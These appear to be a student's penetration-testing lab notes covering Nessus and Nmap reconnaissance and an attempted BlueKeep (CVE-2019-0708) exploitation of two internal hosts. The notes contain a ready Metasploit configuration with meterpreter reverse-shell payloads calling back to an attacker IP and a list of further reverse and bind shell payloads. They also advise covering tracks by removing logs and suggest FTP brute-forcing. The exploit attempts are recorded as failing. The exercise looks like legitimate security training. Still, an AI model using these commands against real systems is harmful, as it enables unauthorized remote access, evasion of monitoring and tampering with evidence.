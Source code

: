 Start OpenVPN:
- sudo openvpn --config client.ovpn
- Andrew-RT
- creds

Start Nessus:
- sudo systemctl start nessusd.service
- https://kali:8834

Kali:
IP: 192.168.0.183

![What Is My IP Address](mediandrew/myIP.png)

**This is an unecessary step, but I wanted to see if it would work.**
<!-- Activate Squid Proxy:
- `sudo apt-get install squid`
- `sudo cp /etc/squid/squid.conf /etc/squid/squid.conf.backup`
- `cd /etc/squid`
- `sudo nano squid.conf` -->

**BASIC NESSUS SCAN**
- Create a New Basic Scan
- Name: Basic Scan 1
- Given Nessus's limitations in directly excluding IPs via the UI, you have two main approaches:

Split the Target Range: Manually split your target range around the excluded IPs. This method is precise but can be cumbersome for larger lists of exclusions.

For your scenario, you could list the ranges as follows, skipping the excluded IPs: `10.0.0.1-10.0.0.5,10.0.0.7-10.0.0.99,10.0.0.104-10.0.0.133,10.0.0.135-10.0.0.175,10.0.0.177-10.0.0.254`

**Exploit Running**
![exploit running](mediandrew/exploitRunning.png)

**OSINT**
![OSINT Screenshot](mediandrew/OSINTscreenShot.png)

**NMAP Scans**
![NMAP Scans](mediandrew/nmapscans.png)

#### WordList Location in Kali
- `/usr/share/wordlists/`


## Trying to Exploit BlueKeep
- first I ran the Nessus basic command to see if it would find the vulnerability.
  - It found the BlueKeep vulnerability on 


# TOP DOWN STRAT
Given the objectives and the vulnerabilities identified through your Nessus scans, your top-down strategy will involve multiple steps, from initial reconnaissance to gaining access and post-exploitation activities. The final goal is to establish an RDP connection and place a `.txt` file on systems `10.0.0.74` and `10.0.0.82`, which both have the BlueKeep vulnerability among other issues.

### 1. Reconnaissance and Initial Enumeration

**Objective**: Confirm services, open ports, and refine understanding of the target's vulnerabilities.

- **Performed an Nmap Scan on 10.0.0.74**:
  - `sudo nmap -sV -O 10.0.0.74` to identify open ports and services.
  - `sudo nmap -sV -p- 10.0.0.74`
  - `sudo nmap -sC -sV -p 3389 10.0.0.74` specifically for detailed RDP service enumeration.

- **Perform an Nmap Scan on 10.0.0.82**:
  - `sudo nmap -sV -O 10.0.0.82`
  - Use `sudo nmap -sV -p- 10.0.0.82` to identify open ports and services.
  - Run `sudo nmap -sC -sV -p 3389 10.0.0.82` specifically for detailed RDP service enumeration.
 

Based on the detailed Nmap scans you've conducted on `10.0.0.74` and `10.0.0.82`, along with the vulnerabilities identified by Nessus, here’s a revised and detailed strategy to establish RDP connections and place a `.txt` file on these systems, taking into account all vulnerabilities and service information provided.

### Step 2: Exploitation Strategy

#### For 10.0.0.74 & 10.0.0.82 (BlueKeep)

- **Metasploit Module**: Given BlueKeep's criticality and direct impact on RDP, prioritize the `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` module in Metasploit for both targets.
- **Configuration**: Use the information from your scans to configure the exploit appropriately:
  - `set RHOSTS` to the target IP.
  - `set LHOST` to your attacking machine's IP (consider using tunneled or internal IP if you're navigating through networks).
  - `set PAYLOAD` to `windows/x64/meterpreter/reverse_tcp`.
  - `set TARGET` as per your best guess from the OS version detected by Nmap (`set TARGET 1` for Windows 7/2008 R2).
  - Consider setting `LPORT` to a non-standard port to avoid potential filtering.

  - `show options` to verify the configuration.

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS 10.0.0.74
set LHOST 172.27.216.36
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LPORT 50000
set TARGET 1
exploit

set RHOSTS 10.0.0.82
# LHOST remains the same (172.27.216.36), no need to set again if the exploit module hasn't changed
set LPORT 50001  # Changing the local port for the new session
exploit

# I'm still not able to get a connection established
- I tried show targets
  - TARGET 0, 1, & 7
- set TARGET 7 (AWS instances)
  - This did not work for 10.0.0.82
  - This did not work for 10.0.0.74

Other Shell Payloads to try:
**This payload opens a simple command shell.**
- set PAYLOAD windows/x64/shell_reverse_tcp

**Uses HTTPS for communication, making it more stealthy in environments where traffic is monitored as it blends in iwth normal HTTPS traffic.**
- set PAYLOAD windows/x64/shell_reverse_tcp

**Opens a command shell that listens on a specified port on the target machine.**
- set PAYLOAD windows/x64/shell_bind_tcp

**This payload attempts to establish a reverse TCP connection to the attacker's machine. (x86)**
- set PAYLOAD windows/x64/meterpreter/reverse_tcp

**This payload attempts to establish a reverse TCP connection to the attacker's machine as 32-bit version.**
-set PAYLOAD windows/meterpreter/reverse_tcp

**This payload attempts to establish a reverse TCP connection to the attacker's machine.**
- set PAYLOAD windows/meterpreter/reverse_tcp


- Deeper dive with aux modules
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 10.0.0.82
run

use auxiliary/admin/rdp/rdp_enumencryption
set RHOSTS 10.0.0.82
run


#### Additional Vector for 10.0.0.82

- **Exploiting Other Vulnerabilities**:
  - **Schannel & MS12-020**: Look for corresponding Metasploit modules or other exploit tools. Schannel vulnerabilities often require specific conditions (e.g., specific patches missing), so research the exact CVE to find the most appropriate exploit.
  - **SNMP Misconfiguration**: Use SNMP to gather more detailed information about the target, potentially identifying additional vulnerabilities or obtaining credentials. Tools like `onesixtyone` can be used to query SNMP.
  - **FTP & HTTP Services**: Attempt anonymous or brute-force access to FTP. For HTTP, explore potential vulnerabilities in IIS 7.5, such as directory traversal or default credentials.

### Step 3: Gaining Access and Placing the .txt File

- **Post-Exploitation**: Once a Meterpreter session is established via BlueKeep or another exploit:
  - Use Meterpreter's `shell` command to drop into a command shell.
  - For RDP Access: If RDP isn't enabled or accessible, use `post/windows/manage/enable_rdp` to enable it, or leverage obtained credentials to connect.
  - **Placing the `.txt` File**: Use Meterpreter's `upload` command to place the `.txt` file in a specific location, or manually place it if using RDP.

### Step 4: Cleanup and Reporting

- **Cleanup**: Cover your tracks if necessary, removing logs or temporary files created during the exploitation process.
- **Documentation**: Document every step taken, from initial scans to successful exploitation and file placement. Include tool outputs, command lines used, and any difficulties or pivots in your strategy.




